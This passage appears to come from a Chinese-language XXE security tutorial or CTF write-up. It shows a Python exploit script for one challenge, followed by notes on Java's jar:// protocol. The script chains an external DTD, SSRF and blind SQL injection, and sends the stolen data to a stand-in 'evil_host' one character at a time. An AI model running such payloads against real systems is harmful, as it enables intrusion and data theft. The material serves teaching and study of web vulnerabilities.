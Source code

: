 ```python
import requests
url = 'http://39.107.33.75:33899/common.php'
s = requests.Session()
result = ''
data = {
        "name":"evil_man",
        "email":"testabcdefg@gmail.com",
        "comment":"""<?xml version="1.0" encoding="utf-8"?>
                <!DOCTYPE root [
                <!ENTITY % dtd SYSTEM "http://evil_host/evil.dtd">
                %dtd;]>
                """
}

for i in range(0,28):
        for j in range(48,123):
                f = open('./evil.dtd','w')
            payload2 = """<!ENTITY % file SYSTEM "php://filter/read=zlib.deflate/convert.base64-encode/resource=http://192.168.223.18/test.php?shop=3'-(case%a0when((select%a0group_concat(total)%a0from%a0albert_shop)like%a0binary('{}'))then(0)else(1)end)-'1">
                <!ENTITY % all "<!ENTITY % send SYSTEM 'http://evil_host/?result=%file;'>">
                %all;
                %send;""".format('_'*i+chr(j)+'_'*(27-i))
                f.write(payload2)
                f.close()
                print 'test {}'.format(chr(j))
                r = s.post(url,data=data)
                if "Oti3a3LeLPdkPkqKF84xs=" in r.content and chr(j)!='_':
                        result += chr(j)
                        print chr(j)
                        break
print result
```

这道题难度比加大，做起来也非常的耗时，所有的东西都要靠脚本去猜，因此当时是0解

### **实验六：文件上传**

我们之前说的好像都是 php 相关，但是==实际上现实中很多都是 java 的框架出现的 XXE 漏洞==，通过阅读文档，我发现 Java 中有一个比较神奇的协议 jar:// ， php 中的 phar:// 似乎就是为了实现 jar:// 的类似的功能设计出来的。

==**jar:// 协议的格式：**==

```
jar:{url}!{path}
```

**实例：**

```
jar:http://host/application.jar!/file/within/the/zip

这个 ! 后面就是其需要从中解压出的文件
```
